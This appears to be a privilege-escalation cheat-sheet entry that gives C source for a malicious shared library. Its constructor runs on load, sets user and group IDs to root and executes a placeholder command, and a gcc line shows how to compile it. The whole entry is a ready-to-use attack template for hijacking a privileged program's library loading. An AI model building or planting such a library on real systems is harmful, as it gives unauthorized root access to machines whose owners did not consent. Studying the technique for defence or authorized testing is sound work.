 # Shared Object File Source

The following `C` source code will run `$COMMAND`.

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	setgid(0);
    system("$COMMAND");
}
```

Compile the source with:

```bash
gcc -shared -fPIC source.c -o $OUTPUT_FILE
```
